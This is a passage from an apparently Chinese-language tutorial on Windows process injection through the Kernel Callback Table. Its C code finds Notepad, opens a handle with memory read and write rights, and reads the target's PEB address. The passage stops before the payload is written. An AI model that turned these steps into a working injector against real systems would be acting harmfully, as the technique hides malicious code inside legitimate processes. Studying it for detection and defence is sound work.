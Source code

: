     while ( hWindow == NULL && waitTime < MAX_WAIT_TIME ) {
        hWindow = FindWindow( L"Notepad", NULL );
        if ( !hWindow ) {
            Sleep( 500 );
            waitTime += 500;
        }
    }
    if ( !hWindow ) {
        printf( "[-] Failed to find Notepad window handle after waiting for %d milliseconds.\n", MAX_WAIT_TIME );
        TerminateProcess( pi.hProcess, 0 );
        CloseHandle( pi.hProcess );
        CloseHandle( pi.hThread );
        return -1;
    }
    printf( "[+] Window Handle found: 0x%p\n", hWindow );
    
    DWORD pid;
    GetWindowThreadProcessId( hWindow, &pid );
    printf( "[+] Process ID: %d\n", pid );


**详细说明**

*   FindWindow 按名称搜索记事本的 window 类并找到其句柄。如果找到句柄，GetWindowThreadProcessId 将检索关联的进程 ID。
*   此进程 ID 对于打开句柄以直接访问 Notepad 的内存是必需的。

### 第 5 步 - 打开目标进程的句柄

使用进程 ID，代码将打开记事本的句柄。此句柄允许直接访问进程的内存，这对于注入至关重要。

    HANDLE hProcess = OpenProcess( PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, FALSE, pid );
    if ( !hProcess ) {
        printf( "[-] Failed to open target process. Error: %d\n", GetLastError() );
        return -1;
    }
    printf( "[+] Process Handle: 0x%p\n", hProcess );


**详细说明**

*   OpenProcess 打开一个具有内存读取、写入和查询操作权限的句柄，允许注入器与记事本的内存交互。

### 步骤 6 - 检索 PEB 地址

NtQueryInformationProcess 用于检索目标进程的 PEB 地址。PEB 包含 Kernel Callback Table，这是此注入技术中修改的重点。

    PROCESS_BASIC_INFORMATION pbi;
    ULONG returnLength;
    NTSTATUS status = NtQueryInformationProcess( hProcess, ProcessBasicInformation, &pbi, sizeof( pbi ), &returnLength );
    if ( status != 0 ) {
        printf( "[-] Failed to query process information. NTSTATUS: 0x%lx\n", status );
        return -1;
    }
    PVOID PebBaseAddress = pbi.PebBaseAddress;
    printf( "[*] PEB Address: 0x%p\n", PebBaseAddress );
